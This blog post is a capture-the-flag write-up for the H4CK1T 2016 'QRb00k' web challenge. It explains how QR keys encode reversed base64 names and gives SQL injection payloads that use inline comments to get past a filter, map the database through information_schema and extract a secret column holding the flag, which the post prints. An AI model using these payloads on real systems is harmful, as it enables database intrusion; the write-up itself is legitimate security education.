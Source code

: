 ```yaml
---
title: '[H4CK1T 2016] QRb00k – Russia Writeup'
author: Megabeets
type: post
date: 2016-10-03T00:35:37+00:00
url: /h4ck1t-2016-qrb00k-russia-writeup/
categories:
  - H4CK1T CTF 2016
  - Writeups
tags:
  - CTF
  - H4CK1T
  - Web
  - Writeups

---
```

### **Description:**

> **Task: QRb00k &#8211; Russia &#8211; W3b &#8211; 400**  
> <span style="font-weight: 400;">The secured messenger was developed in Canada, it&#8217;s using systems with qr keys for communicating, it allows to read other people&#8217;s messages only to this key holders. But is it true? And you have to figure it out &#8230;</span>  
> [<span style="font-weight: 400;">http://hack-quest.com</span>][1]

This was a very good web challenge. It took me quite a time to fully understand it but was absolutely worth of its 400 points.

Starting the challenge we are given with a messenger site that uses QR codes to communicate. The site has two main pages:

  * Create &#8211; which creates QR code from a given name and message
  * Read &#8211; an upload form to upload QR code and read the message inside

So let&#8217;s create a message:

<img src="./h4ck1t_russia_1.png" /> 

We got a QR code which is the key to read our message:

<img src="./h4ck1t_russia_2-279x300.png" /> 

Now let&#8217;s read the message using the QR code:

<img src="./h4ck1t_russia_3-271x300.png" /> 

&nbsp;

Ok, it all worked as it supposed to. I used the [zxing][2] service to view the content of the QR code:

<img src="./h4ck1t_russia_4.png" /> 

Look at the raw text. It&#8217;s a short string that looks like it was base64 encoded. But wait, base64 can&#8217;t begin with &#8220;==&#8221;! Those characters usually appear at the end of base64 encoded strings. Is it reversed? Let&#8217;s check:

```python
>>> "==QehRXS"[::-1].decode('base64')
'Itay'
```


Yes! it indeed was reversed. our key (QR code) is created by: QR(Reverse(Base64(name))).

Ok, now that we understand the mechanics we can let the party begin and start playing with SQL Injection. In order to create the QR codes I used [this][3] site, It was faster than using the challenge site.

I began with the obvious: &#8216; or 1=1&#8211;

<img src="./h4ck1t_russia_5.png" /> 

Whoops, Busted. The system recognized my SQLi attack. I tried some filter bypassing methods and succeeded with this input:

```mysql
'/*..*/union/*..*/select/*..*/database()/*..*/union/*..*/select/*..*/'Megabeets
```


<span style="font-size: 8pt;">Reverse(Base64(input)) == &#8220;==wc0VWZiF2Zl10JvoiLuoyL0NWZsV2cvoiLuoyLu9WauV3Lq4iLq8SKoU2chJWY0FGZvoiLuoyL0NWZsV2cvoiLuoyLu9WauV3Lq4iLq8yJ&#8221;</span>

<img src="./h4ck1t_russia_6-1024x478.png" /> 

It worked! now let&#8217;s find the correct table (&#8220;messages&#8221;) and column by using some queries to map the database:

<span style="font-size: 8pt;">QR(Reverse(Base64(input))) == &#8220;zRXZlJWYnVWTn8iKu4iKvQ3YlxWZz9iKu4iKv42bp5WdvoiLuoyLnMXZnF2czVWbn8iKu4iKvU2apx2Lq4iLq8SZtFmbfVGbiFGdvoiLuoyLlJXZod3Lq4iLq8ycu1Wds92YuEWblh2Yz9lbvlGdh1mcvZmbp9iKu4iKv02byZ2Lq4iLq8SKl1WYu9lbtVHbvNGK0F2Yu92YfBXdvJ3ZvoiLuoyL0NWZsV2cvoiLuoyLu9WauV3Lq4iLq8yJ&#8221;</span>

```mysql
'/*..*/union/*..*/select/*..*/group_concat(column_name)/*..*/from/*..*/information_schema.columns/*..*/where/*..*/table_name/*..*/like/*..*/'messages'/*..*/union/*..*/select/*..*/'Megabeets
```


<img src="./h4ck1t_russia_7-1024x679.png" /> 

&#8220;secret_field&#8221;? Sounds suspicious. Let&#8217;s query it and see what it contains:

```mysql
'/*..*/union/*..*/select/*..*/secret_field/*..*/from/*..*/messages/*..*/union/*..*/select/*..*/'Megabeets
```


<img src="./h4ck1t_russia_8-1024x744.png" /> 

And we got the flag! I honestly really enjoyed this challenge.

**Flag: **_h4ck1t{I\_h@ck3d\_qR_m3Ss@g3r}_

&nbsp;

If you have any questions feel free to ask 🙂

<div class="nf-post-footer">
  <p style="text-align: right">
    <a href="https://www.megabeets.net/about.html#vegan"><img src="./megabeets_inline_logo.png" />Eat Veggies</a>
  </p>
</div>

 [1]: http://hack-quest.com/
 [2]: https://zxing.org/w/decode.jspx
 [3]: https://www.the-qrcode-generator.com/
